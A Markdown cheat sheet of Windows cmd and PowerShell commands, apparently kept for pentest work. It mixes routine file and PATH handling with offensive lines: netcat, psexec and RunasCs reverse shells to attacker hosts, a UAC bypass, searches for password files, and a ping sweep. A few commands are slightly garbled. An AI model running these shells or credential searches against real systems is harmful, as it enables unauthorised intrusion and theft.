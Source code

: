 # Commands

## Short path to avoid spaces

This avoids troubles for some protocols/services. Six uppercase letters + \~ + number.

```
"PROGRA~1"
```

{% embed url="https://superuser.com/questions/529400/how-does-progra1-path-notation-work" %}

## General

{% code overflow="wrap" fullWidth="true" %}
```powershell
# CHANGE DIRECTORIES / LIST DIR OR FILES QUICKER
cd E*
dir E*
type E*

# Look for hidden files
dir /A:H /s "c:\program files"
dir /a user.txt
dir *.bat /a /s
ls -force 
dir $PATH -force 
# check for files in home folders of users with names that could mean they hold passwords
dir /s C:\Users
# -----------------------------FIND/SEARCH/LOOK FOR FILES
cd C:\ && dir *.bat /a /s
dir /a /o /q # know owner of files/folders
dir /s flag2* # /s look in subsequent folders
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
# CREATE EMPTY/TEXT FILE
echo This is sample text > MyFile.txt

# Tree
tree /f .
tree /f /a

# Like grep lines after and before. Example:
netstat -anbo | Select-String -Pattern MyPattern -Context 3,3

# ZIP FILES (Windows 10 has tar command since 2018)
tar.exe acvf yourfile.zip yourfolder
powershell Compress-Archive D:\Build\FolderName D:\Build\FolderName.zip
powershell expand-archive D:\Build\FileName.zip D:\deployments\FileName

# Permissions - calcs
$ cacls $PATH /grant $USER:F
tasklist #imagine we want to kill process.exe
taskkill /im:process.exe /F #/F to force terminationStart-Process "shell-name.exe"


echo %USERNAME%
$env:UserName
#REDIRECT OUTPUT
2>NUL
#Redirect to a file and show output like tee
dir > a.txt & type a.txt
#COUNT LINES
cat file.txt | find /c /v ""

# Type fast a long path
Instead of "Documents and Settings" --> docume~1 (first 6 characters +  ~1)
# cmd and echo
cmd.exe /c echo "Hello World" 
# move, delete and copy files
move $FILE $DESTINATION
copy $FILE $DESTINATION
del $FILE

# Checksum and integrity
certutil -hashfile test.bin SHA1
# Ping sweep
C:\>for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && t echo 10.5.5.%i is up.
# Base64 encode
echo -n 'text' | base64 -w 0
```
{% endcode %}

## RunAs / Start Process As

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/antonioCoco/RunasCs
C:\ > runas /env /profile /user:WORKGROUP\$username "$COMMAND"
runas /env /profile /user:HOSTNAME\Administrator "C:\temp\nc.exe -e cmd.exe $LHOST 443" 

RunasCs.exe <username> <password> cmd -r 10.0.0.1:4444
RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
Invoke-RunasCs $user $pass whoami

# Requires interactive console
runas /user:userName cmd.exe
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```
{% endcode %}

## Reboot system

```powershell
# Simulation
Restart-Computer -WhatIf
# Real reboot
Restart-Computer
```

## &#x20;variables (Windows PATH)

By default **setx** sets the variable in the local environment (Under HKEY\_Current\_User Registry key). If you want to set the system variable (Under HKEY\_LOCAL\_MACHINE registry key), use the flag **/m**. Start the command prompt as administrator on Windows 10, right click on Start menu and select **Command Prompt(Admin)**.

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\>setx /m PATH "C:\myfolder;%PATH%"
# Fix PATH environmental variable
set PATH=c:\Windows\System32\;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%
echo %path%
# PS
(Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment" -Name "PATH").path
$Env:Path
```
{% endcode %}
